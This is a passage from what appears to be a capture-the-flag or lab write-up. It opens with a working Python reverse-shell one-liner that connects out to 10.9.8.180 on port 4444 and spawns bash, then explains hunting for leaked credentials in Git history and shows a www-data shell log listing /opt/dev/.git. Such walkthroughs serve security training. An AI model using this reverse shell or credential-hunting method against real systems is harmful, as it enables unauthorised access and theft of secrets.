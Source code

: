 ## Reverse Shell

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.8.180",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
    
```

<img width="1221" height="508" alt="image" src="https://github.com/user-attachments/assets/9b20e316-d2bb-4fe5-8a56-d72aa5b2f542" />

When searching for credentials or any sensitive data, `.git/` directory is a good starting point as it may contain:
- Old credentials (usernames/passwords, API keys, SSH keys) may have been committed and later deleted but still exist in Git history. you can recover them with 
```bash
git log
git show <commit>
git diff <commit>
```
- Configuration files -> `.git/config` might contain remote URLs with usernames and tokens. 
- Index inspection -> You can see tracked files even if they aren't in the working directory anymore: `git ls-files`. 

With that being said, let's start searching for credentials.
```bash
www-data@ip-10-10-74-250:/$ ls -al /opt
ls -al /opt
total 12
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Jul 21 08:43 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
www-data@ip-10-10-74-250:/$ ls -al /opt/dev
ls -al /opt/dev
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
www-data@ip-10-10-74-250:/$ ls -al /opt/dev/.git
ls -al /opt/dev/.git
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
www-data@ip-10-10-74-250:/$ 
```
